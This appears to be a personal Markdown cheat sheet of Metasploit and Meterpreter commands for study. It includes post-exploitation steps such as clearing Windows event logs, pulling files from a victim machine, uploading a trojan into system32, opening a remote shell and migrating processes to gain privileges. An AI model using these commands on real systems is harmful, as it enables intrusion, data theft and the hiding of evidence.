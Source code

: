 # Basic Commands I used for metasploit

## Links

https://www.exploit-db.com/docs/english/18229-white-paper--post-exploitation-using-meterpreter.pdf
https://www.offensive-security.com/metasploit-unleashed/

## Rough listing Metasploit

- `msfconsole` in bash starts the metasploit framework.
- `?/help` for starting help menu.
- `sessions` lists all the current sessions.
- `search <modulename>` searches module names and descriptions.
- `use <path_to_exploit_module/number_fromSearchResult>` select the module specified with the module path.
- `info` displys the module specified with the name.
- `options` displays the available options for the module specified.
- `set <option> <value>` sets the value for the specified option for the selected module.
- `set payload` sets the payload to be used for the operation.
- `show <category>` displays the options in specific category
- `advanced` displays the advanced options for the module specified.
- `exploit` starts the process of exploitation after the module is selected and configured accordingly.
  - `exploit -j` starts the process of exploitation in the background
  - `exploit -i` starts the process of exploitation in interactive mode. Gives a meterpreter shell after exploitation.

## Rough listing Meterpreter

- `getuid` will return the username of the victim machine.
- `background` sends the meterpreter shell into the background and starts msf shell again.
- `clearev` Will clear application, system and security logs on a windows system.
- `download <filename>` downloads the specified file in the attacker machine.
- `edit <filename>` will start a vim like text editor in the victim machine.
- `execute [flags] <executable>` executes the specified executable in the machine.
- `upload evil_trojan.exe c:\\windows\\system32` uploads file in the victim machine.
- `ps` shows the running processes in the victim machine.
  - `migrate` is used for migrating processes. It's used for privilage escallation as some processes may run with more privilages.
- `shell` starts an interactive shell in the victim machine.
- `search <filename/pattern>` searches the specified file in the victim machine.
